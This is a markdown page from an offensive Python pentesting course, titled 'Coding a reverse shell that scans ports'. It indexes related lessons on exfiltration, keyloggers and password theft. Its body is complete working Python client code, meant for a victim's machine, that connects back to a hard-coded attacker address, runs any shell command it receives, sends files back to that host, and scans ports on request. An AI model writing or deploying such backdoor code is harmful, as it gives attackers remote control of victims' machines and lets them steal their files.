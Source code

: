 ```yaml
---
title: Coding a reverse shell that scans ports
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
  - port scanner
---
```


# Coding a reverse shell that scans ports

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Client side

To be run on the victim's machine.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

import os
import socket
import subprocess

def transfer(s, path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while packet:
            s.send(packet)
            packet = f.read(1024)
        s.send('DONE'.encode())
        f.close()

def scanner(s, ip, ports):
    scan_result = '' # scan_result is a variable stores our scanning result
    for port in ports.split(','):
        try: # we will try to make a connection using socket library for EACH one of these ports
            sock =  socket.socket()
#connect_ex This function returns 0 if the operation succeeded,  and in our case operation succeeded means that the connection happens whihch means the port is open otherwsie the port could be closed or the host is unreachable in the first place.
            output = sock.connect_ex((ip, int(port)))
            if output == 0:
                scan_result = scan_result + "[+] Port " + port + " is opened" + "\n"
            else:
                scan_result = scan_result + "[-] Port " + port + " is closed"
                sock.close()
        except Exception as e:
            pass
    s.send(scan_result.encode())
def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.0.152', 8080))
    while True:
        command = s.recv(1024)
        if 'terminate' in command.decode():
            s.close()
            break
        elif 'grab' in command.decode():
            grab, path = command.decode().split('*')
            try:
                transfer(s, path)
            except:
                s.send(str(e).encode())
                pass

        elif 'scan' in command.decode(): # syntax: scan 10.10.10.100:22,80
            command = command[5:].decode() #slice the leading first 5 char 
            ip, ports = command.split(':')
            scanner(s, ip, ports)
        else:
            CMD = subprocess.Popen(command.decode(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            s.send(CMD.stdout.read())
            s.send(CMD.stderr.read())

def main():
    connect()

main()

```